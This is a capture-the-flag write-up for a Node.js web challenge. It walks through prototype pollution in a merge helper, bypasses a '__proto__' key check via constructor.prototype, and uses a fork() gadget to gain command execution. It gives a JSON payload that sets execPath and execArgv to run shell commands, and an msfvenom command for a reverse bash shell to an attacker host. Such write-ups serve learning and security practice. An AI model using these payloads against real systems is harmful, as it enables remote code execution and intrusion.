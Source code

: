 ##### Web - Medium

#### Description:
```
You and your buddy corrected the math in your physics teacher's paper on the decay of highly excited massive string states in the footnote of a renowned publication. He's just failed your thesis out of spite, for making a fool out of him in the university's research symposium. Now you can't graduate, unless you can do something about it... 🤷
```


- Upon entering the URL, a simple web page is provided.  

	![Portal](images/main_page.png)
- The user can choose between two names and press the "Did I pass?" button. Regardless of the user choice, the result is the same :) 
	![](images/pass.png)

- Let's intercept the request in Burp:

	![](images/burp_calculate_request.png)

- Nothing worth noting so far. It's time to look at the provided source code:

```js
router.get('/debug/:action', (req, res) => {
	return DebugHelper.execute(res, req.params.action);
});

router.post('/api/calculate', (req, res) => {
	let student = ObjectHelper.clone(req.body);
	
	if (StudentHelper.isDumb(student.name) || !StudentHelper.hasBase(student.paper)) {
	return res.send({
	'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
	});
	}

	return res.send({
	'pass': 'Passed'
	});
});
```

- Having a look at the DebugHelper.js file:
```js
execute(res, command) {
	res.type('txt');
	if (command == 'version') {

		let proc = fork('VersionCheck.js', [], {
			stdio: ['ignore', 'pipe', 'pipe', 'ipc']
		});
	proc.stderr.pipe(res);
	proc.stdout.pipe(res);
	return;
	}

	if (command == 'ram') {
		return res.send(execSync('free -m').toString());
	}

	return res.send('invalid command');
}
```

- The execute command accepts two parameters, **ram** or **version**. Ram acts as a free function, but when executed, it reveals that the command is not even installed on the remote server `:laughing:`.
- The version param creates a child process that executes `VersionCheck.js` and pipes stdout and stderr to the parent process'.  
- We gain valuable information, such as the Node JS version that is used. Granted this is simulating a **"white box assessment"**, it is of no real value, since we could've just checked package.json, but from a black box perspective, this information can be vital.  :)
- This could also be a hint that a vulnerable node version is the entry point of this challenge, since the verison is so old (Node v12, comparted to the current v18 as of writing this `29/06/2023` )

- The `ObjectHelper.js` file is where the vulnerability resides: 
```js
module.exports = {
	isObject(obj) {
	return typeof obj === 'function' || typeof obj === 'object';
	},

	isValidKey(key) {
	return key !== '__proto__';
	},

	merge(target, source) {
		for (let key in source) {
			if (this.isValidKey(key)){
				if (this.isObject(target[key]) && this.isObject(source[key])) {
					this.merge(target[key], source[key]);
				} else {
				target[key] = source[key];
				}
			}
		}
		return target;
},
	clone(target) {
	return this.merge({}, target);
	}
	
}
```

- Evident prototype pollution here. If you are unfamiliar with proto pollution, I highly recommend this article from the Port Swigger Web Academy : https://portswigger.net/web-security/prototype-pollution, they go in-depth on this topic. 
 
- TLDR: In JavaScript, objects are created from prototypes, which serve as templates or blueprints for defining object properties and methods. Each object has an internal reference to its prototype, accessible through the `__proto__` attribute. By modifying this attribute, an attacker can introduce new properties or modify existing ones in the target object, even if it was not originally intended.

- Here's a great diagram provided by Snyk:
  	![Great diagram provided by Snyk](images/Prototype_pollution_Attack.svg)

- In our case, there is one catch: the server makes a validation that a key must be different from `__proto__` . Following this article from HackTricks (https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution), we get the following info:

	![](images/keyword_bypass.png)

- So even if `__proto__` is blacklisted, we can just use `object.constructor.prototype`. There are a few differences between the two: 
	- `myobject.constructor.prototype` will only affect objects created from the `myobject` type. 

- The application builds new objects directly from the information provided in the request body, so the effect will be the same as if `__proto__` is used: 
	```js
	let student = ObjectHelper.clone(req.body);
	```

- Now we need to look for a pollution gadget. We saw that the application used `fork()` in the `<URL>/debug/version` endpoint. Using online resources, we can find how to exploit it:
https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce

 ![](images/fork_pollution.png)

- Trying this in burp:
![](images/try_1.png)

- Payload:
```json
{
   "name":"Kenny Baker",
   "constructor":{
      "prototype":{
         "execPath":"/bin/sh",
         "argv0":"/bin/sh",
         "execArgv":[
            "-c",
            "ls"
         ]
      }
   }
}
```

- Access the `/debug/version` endpoint to trigger the pollution:
![](images/try_2.png)

- From here, just spawn a reverse shell.
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw -o shell.sh
```

